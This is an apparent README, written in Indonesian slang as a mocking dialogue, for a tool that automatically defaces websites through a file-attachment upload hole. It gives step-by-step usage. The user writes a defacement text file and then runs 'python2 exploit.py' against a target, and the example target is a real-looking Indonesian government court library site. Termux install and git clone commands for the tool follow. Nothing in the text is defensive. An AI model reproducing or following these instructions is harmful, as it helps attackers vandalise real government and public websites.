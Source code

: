 TOOL AUTO EXPLOIT DEFACE FILE ATTACHMENT UPLOAD 
REPOSITORY

•_-_-_-_-PENJELASAN_-_-_-_-•

Lu : Tool Apa Ini
Gua: Tool Auto Deface File Attachment Upload Repository
Lu : Gak Paham Anjir
Gua: OwalaH SETAN tool Ini Buat Lu pengim Deface Attachment Upload Repository SETAN
Lu : Cara Makenya Gimana Anjer
Gua: pertama Lu Buat File Deface Lu Dulu
     Tapi Pake File TXT
Lu : Caranya Gimana Anjiirr
Gua: Lu Ketik nano namafileserah.txt Terus Lu Bikin Kata Kata
     Terhek Gitu Lah Setan
Lu : Habis Itu?
Gua: Lu Save lah Setan Pencet CTRL+X terus Namain Filelu 
     Dan Belakang Filenya Ada Kata txt njir 
     
     Contoh
     
     SETAN.txt
Lu : Terus?
Gua: Lu Jalanin Lah Setan Toolnya Anjerr Dengan Kommand

python2 exploit.py NAMAWEBTARGETLU.go.id FILEDEFACELU.txt

Contoh :

python2 exploit.py http://perpustakaan.pn-pekalongan.go.id Jevil.txt

Gua: Dah Paham belom lu Setan Kalo KagaK Mati aja lu
Lu : Ye Setan


•_-_-_-_-Command_-_-_-_-•

pkg update
pkg upgrade
pkg install python
pkg install python2
pkg install git
pkg install pip
pkg install pip2
git clone https://github.com/Jevil36239/JeSkak
cd JeSkak
cat README.md
lu baca tuh njir dan done tq



